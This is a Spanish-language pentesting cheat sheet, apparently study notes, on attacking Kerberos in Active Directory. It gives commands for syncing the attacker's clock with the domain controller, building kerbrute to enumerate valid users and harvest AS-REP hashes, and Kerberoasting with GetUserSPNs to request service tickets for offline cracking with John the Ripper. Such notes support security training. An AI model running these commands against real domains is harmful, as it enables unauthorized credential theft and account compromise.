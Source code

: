 # Kerberos 

Tags: #Kerberos #DC #Windows 

Este es el puerto para Kerberos, que es el protocolo de autenticación predeterminado usado en AD. Kerberos es vital para el proceso de inicio de sesión y la concesión de tickets de acceso.
## Sincronizar el reloj 

```bash 
Nota: Antes de iniciar al ataque debemos de sincronizar el reloj de la maquina de atacante con el AD

❯ ntpdate IP     # Sincronizar el reloj 

	# IP = Dirección IP del DC

❯ date -s "2025-01-04 15:30:00"   # Restablecer la fecha y hora
```

## Kerbrute 

```bash 
❯ git clone https://github.com/ropnop/kerbrute           # Descargar la herramienta
❯ go build .                                             # Entrar al dir 'kerbrute' y compilarlo 
```

```bash 
❯ kerbrute userenum -d domain1.corp --dc IP user.txt   # Enumerar y verificar usuarios validos en el dominio 


Notas: 
	1. Se puede usar el diccionario de 'Names.txt' de Seclist 
	2. Si el usuario no cuenta con autenticacion previa de Kerberos, la herramienta arroja el TGT (hash) y este se puede crackear offline con 'John The Ripper'
```

## Solcitar un TGS con un usuario valido 

```bash 
❯ GetUsersSPNs domain1.corp/user:password            # Verificar si el DC es kerberostable en algún usuario

❯ GetUsersSPNs domain1.corp/user:password -request   # Solicitar un TGS y en offline crackearlo con John 
```